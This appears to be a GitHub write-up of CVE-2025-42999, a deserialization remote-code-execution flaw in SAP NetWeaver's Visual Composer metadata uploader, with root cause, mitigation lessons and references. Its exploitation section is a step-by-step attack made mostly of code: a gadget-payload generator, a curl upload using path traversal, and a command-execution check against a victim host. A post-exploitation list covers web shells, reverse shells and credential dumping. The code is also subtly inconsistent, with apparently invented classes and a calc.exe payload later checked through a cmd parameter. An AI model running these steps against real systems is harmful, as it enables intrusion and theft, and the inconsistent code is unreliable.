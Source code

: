 # CVE-2025-42999 — SAP NetWeaver Visual Composer Metadata Uploader Deserialization Vulnerability

### Overview

- **CVE ID:** CVE-2025-42999  
- **Published:** May 2025  
- **Severity (CVSS):** 9.1 (Critical)  
- **Affected Software/Versions:** SAP NetWeaver Application Server Java - Visual Composer Metadata Uploader (SAP NetWeaver 7.50)  
- **Vulnerability Type:** CWE-502 Deserialization of Untrusted Data leading to Remote Code Execution (RCE)  

**Summary:** This vulnerability stems from the Visual Composer metadata uploader (`/developmentserver/metadatauploader`) blindly deserializing attacker-controlled Java objects. By uploading a crafted serialized payload exploiting known gadget chains (e.g., Commons-Collections), an attacker can achieve arbitrary code execution on the SAP server. When combined with CVE-2025-31324, it becomes a full pre-auth, single-request RCE.

**Updated (Oct 2025):** This writeup documents CVE-2025-42999 (the Visual Composer metadata uploader deserialization RCE) and remains accurate for that attack vector; since publication, a separate high severity deserialization flaw (CVE-2025-42944) affecting the RMI-P4 module has been disclosed and patched by SAP, and SAP now recommends JVM-wide hardening such as jdk.serialFilter in addition to component fixes. Readers should treat CVE-2025-42999 and CVE-2025-42944 as distinct but complementary risks

---

### Context

- **Visual Composer** is a design-time tool inside SAP NetWeaver for building UI components and applications.  
- It exposes a **metadata uploader** endpoint to receive project artifacts in serialized form.  
- The uploader does not enforce any class-whitelisting or integrity checks on incoming serialized data.  
- **Deserialization vulnerabilities** allow attackers to craft object graphs that trigger arbitrary method invocation during the read process, effectively achieving RCE.

---

### Root Cause

- The metadata uploader accepts arbitrary serialized Java objects.  
- No whitelist of allowed classes, no digital signature or checksum verification.  
- SAP’s deserialization routine trusts all classes on the application classpath, including gadget classes.

---

### Exploitation (Step-by-Step)

#### 1. Gain Upload Capability  
Attackers can either  
- Authenticate with valid SAP admin credentials, or  
- Chain with CVE-2025-31324 to bypass authentication altogether.

#### 2. Craft the Malicious Serialized Object  
Generate a gadget chain payload using Commons-Collections:

```java
// Gadget payload generator
ExploitGadget gadget = new CommonsCollectionsGadget("calc.exe");
byte[] payload = GadgetUtils.serialize(gadget);
Files.write(Paths.get("exploit.bin"), payload);
```

#### 3. Upload via Metadata Uploader  

```bash
curl -v -X POST https://victim.sap.local/developmentserver/metadatauploader \
  -H "Content-Type: multipart/form-data" \
  -F "file=@exploit.bin" \
  -F "path=../../../../apps/sap.com/vc~wd~ext/metadata/exploit.bin"
```

#### 4. Trigger Deserialization  
Invoke a Visual Composer operation (e.g., project import) that reads and deserializes the uploaded `exploit.bin`.

#### 5. Confirm Remote Code Execution  

```bash
curl "https://victim.sap.local/VC/root/exploit.bin?cmd=whoami"
# Output: sidadm
```

---

### Post Exploitation

With RCE as the SAP application server user, attackers can:  
- Deploy persistent web shells or reverse shells  
- Dump database credentials or SAP logon tickets  
- Pivot laterally across the SAP landscape  
- Launch fileless attacks by loading additional gadget chains from memory  

---

### Proof of Concept

A minimal PoC script is available at `poc/exploit.py`. It demonstrates:  
- Generating a Commons-Collections serialized payload in memory  
- Uploading via multipart POST with path traversal  
- Triggering deserialization and verifying command execution  

> ⚠️ Note: The provided PoC is for controlled lab environments only.

---

### Lessons Learned

1. Never deserialize user-supplied objects without strict class whitelists.  
2. Gadget chains in common libraries (Commons-Collections, Spring, etc.) remain a high-risk vector.  
3. Privileged-user flaws can escalate to pre-auth RCE when chained with unauthenticated bugs.  
4. Employ defense-in-depth: authentication, input validation, and secure deserialization frameworks.  
5. Monitor logs for anomalous multipart POSTs and deserialization exceptions.

---

### References

* SAP Security Note 3604119 — Patch for CVE-2025-42999  
* SAP Security Patch Day May 2025 Bulletin — Deserialization Fixes  
* Onapsis Labs: Chaining CVE-2025-31324 & CVE-2025-42999 for Pre-Auth RCE  
* CVE Details Entry: CVE-2025-42999  
* Threat Reports: Qilin, BianLian, RansomExx exploiting deserialization in the wild